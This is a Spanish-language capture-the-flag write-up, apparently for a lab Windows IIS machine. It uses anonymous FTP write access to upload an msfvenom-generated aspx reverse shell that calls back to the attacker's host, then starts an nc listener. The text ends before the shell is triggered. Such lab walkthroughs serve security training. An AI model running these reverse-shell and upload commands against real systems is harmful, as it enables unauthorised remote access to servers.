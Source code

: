 
## FTP
<br>
Si accedemos por ftp con las credenciales `anonymous:anonymous` parece ser que estamos en la ruta donde se aloja el contenido del servidor web.

```bash
❯ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:void4m0n): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49169|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png

```

Tenemos permisos de escritura, por lo que podríamos intentar subir una reverse shell.

## INTRUSION

<h3 style="text-align:center" id="crear">CREACION DE LA REVSHELL</h3>
<br>
De primeras intenté hacer uso de `php-reverse-shell.php`, pero por lo que parece el servidor lo tenía contemplado y no dejaba acceder a ella mediante el buscador, por lo que recurrí a 
`msfvenom` para crear una reverse shell en formato ejecutable `aspx`.

```bash
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=1234 -f aspx > revshell.aspx
```

<h3 style="text-align:center" id="subir">SUBIR REVSHELL POR FTP</h3>
<br>
Subimos `revshell.aspx` por ftp.

```bash
ftp> put revshell.aspx 
local: revshell.aspx remote: revshell.aspx
229 Entering Extended Passive Mode (|||49178|)
125 Data connection already open; Transfer starting.
100% |****************************|  2739       28.39 MiB/s    --:-- ETA
226 Transfer complete.
2739 bytes sent in 00:00 (18.83 KiB/s)

```
<h3 style="text-align:center" id="conexion">RECIBIR LA CONEXION</h3>
<br>
1 - Nos ponemos por escucha en el puerto indicado, haciendo uso de `rlwrap` para disponer de una shell más interactiva.
```bash
❯ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
```
<br>
2 - Hacemos una petición por `GET` a `revshell.aspx`.
